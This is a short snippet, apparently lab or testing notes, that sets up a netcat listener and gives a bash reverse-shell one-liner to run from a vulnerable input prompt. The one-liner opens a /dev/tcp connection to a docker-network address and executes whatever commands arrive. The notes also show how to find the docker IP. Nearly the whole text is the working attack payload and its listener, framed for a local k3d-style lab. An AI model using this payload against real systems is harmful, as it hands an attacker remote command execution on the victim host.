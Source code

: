 # run netcat to capture incomming reverse shell
nc -lvp <port>

# The exploit, run from a vulnerable input prompt
```bash
/bin/bash -c "exec 5<>/dev/tcp/172.17.0.1/4444;cat <&5 | while read line; do $line 2>&5 >&5; done"
```

# Ip (docker ip if run with k3d or similar)
ifconfig | grep docker0 -A 1